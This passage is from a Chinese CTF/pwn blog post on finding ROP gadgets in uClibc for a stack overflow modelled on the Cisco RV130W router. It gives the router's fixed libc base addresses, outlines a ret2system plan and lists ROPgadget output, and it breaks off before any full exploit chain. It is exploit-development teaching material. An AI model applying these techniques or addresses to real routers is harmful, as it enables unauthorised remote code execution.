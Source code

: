 ```yaml
---
title: 思科路由器 RV130W 中 ARM:uClibc 的 ROP寻找
date: 2021-01-09 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出
---
```


> 在思科的RV130W路由器，因为字符串拷贝存在许多栈溢出漏洞，故所以利用时要考虑到空字符截断，一般来说存在这种限制条件的漏洞是不容易利用的。但不知为何，在思科这个系列的路由器中，进程加载动态库的地址是固定不变且位于高地址的，故可以通过各种动态库中的gadget来完成整个漏洞的利用，这里抽象出一道练习题进行练习寻找ROP的过程。

附件：[cisco_rop.zip](https://xuanxuanblingbling.github.io/assets/attachment/cisco_rop.zip)

两个常用的rop工具：[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)、[Ropper](https://github.com/sashs/Ropper)

## libc基址

在已经公开的对该款路由器的exp中：

- [Cisco RV110W/RV130(W)/RV215W Routers Management Interface - Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/47348)
- [Cisco RV130W Routers - Management Interface Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/46705)

可以看到RV130W的基址为0x357fb000，不过这个基址在最新版上有了一点点变化，改为0x357fc000，但是具体原因不详，和之前分析的110W一样，可能都是系统压根没支持随机化。题目中我们方便模拟，直接在程序开始给出了libc基址相关信息：

```c
➜  qemu-arm -L ./ ./pwntest
gift: f67d80c0
```

分析程序或者看之后的源码，都容易的发现，恶意数据会被strcpy到栈上引发栈溢出，并且copy后，位于全局变量的源恶意数据会被清空，故程序可控的数据主要还是位于栈上。本篇主要是复现使用libc中的gadget进行ROP寻找以及利用，所以肯定还有其他各种方案，这里分享自己分析出的两种思路：构造ROP使用system函数以及shellcode。

## ret2system

> 想办法把sp给r0，然后system，rop数据后跟cmd

首先来看看我们能直接控制哪些寄存器：

```c
➜  ROPgadget --binary ./libc.so.0  --only 'pop|ret' 
Gadgets information
============================================================
0x00034410 : pop {r0, pc}
0x00052634 : pop {r1, pc}
0x0000bc30 : pop {r4, pc}
0x0000c35c : pop {r4, r5, pc}
0x0000c19c : pop {r4, r5, r6, pc}
0x0000c060 : pop {r4, r5, r6, r7, pc}
0x0000d128 : pop {r4, r5, r6, r7, r8, pc}
0x00010ca4 : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0001a484 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x0000bf44 : pop {r4, r5, r6, r7, r8, sl, pc}
0x0000c124 : pop {r4, r5, r7, pc}
0x0000cb54 : pop {r4, r7, pc}
0x0000bc00 : pop {r7, pc}
```
